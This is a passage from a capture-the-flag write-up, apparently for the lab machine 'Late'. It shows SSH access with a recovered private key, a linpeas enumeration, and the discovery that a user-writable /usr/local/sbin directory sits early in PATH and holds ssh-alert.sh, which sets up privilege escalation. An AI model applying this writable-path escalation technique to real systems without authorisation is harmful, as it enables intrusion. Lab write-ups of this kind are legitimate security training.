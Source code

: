 Now that we have the private key we can save it to a file and ssh into the box

```bash
$ ssh -i private_key svc_acc@10.10.11.156
svc_acc@late:~$
```

# Getting Root

The next step was to run [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).  The first thing linpeas noted was that we had write privileges to `/usr/local/sbin/`. 

## Write Path Abuse

```bash 
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/home/svc_acc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
New path exported: /home/svc_acc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Taking a look at the system path `/usr/local/sbin` is close to the front of the line.  Meaning it's going to be one of the first places Linux is going to look to run commands.

```bash
svc_acc@late:~$ echo $PATH
/home/svc_acc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

`/usr/local/sbin` is owned by `svc_acc` so we can write to it.

```bash
svc_acc@late:~$ ls -Flaths /usr/local
total 40K
4.0K drwxr-xr-x  2 svc_acc svc_acc 4.0K Jun 21 21:16 sbin/
4.0K drwxr-xr-x  7 root    root    4.0K Apr  7 13:51 share/
4.0K drwxr-xr-x  2 root    root    4.0K Apr  4 13:20 bin/
4.0K drwxr-xr-x  4 root    root    4.0K Jan 12 09:31 lib/
4.0K drwxr-xr-x 10 root    root    4.0K Aug  6  2020 ./
4.0K drwxr-xr-x 10 root    root    4.0K Aug  6  2020 ../
4.0K drwxr-xr-x  2 root    root    4.0K Aug  6  2020 etc/
4.0K drwxr-xr-x  2 root    root    4.0K Aug  6  2020 games/
4.0K drwxr-xr-x  2 root    root    4.0K Aug  6  2020 include/
   0 lrwxrwxrwx  1 root    root       9 Aug  6  2020 man -> share/man/
4.0K drwxr-xr-x  2 root    root    4.0K Aug  6  2020 src/
```

within `usr/local/sbin` is a `ssh-alert.sh` script.

```bash
svc_acc@late:/usr/local/sbin$ cd
svc_acc@late:~$ ls -Flaths /usr/local/sbin/
total 12K
4.0K drwxr-xr-x  2 svc_acc svc_acc 4.0K Jun 21 21:16 ./
4.0K -rwxr-xr-x  1 svc_acc svc_acc  433 Jun 21 21:16 ssh-alert.sh*
4.0K drwxr-xr-x 10 root    root    4.0K Aug  6  2020 ../
```
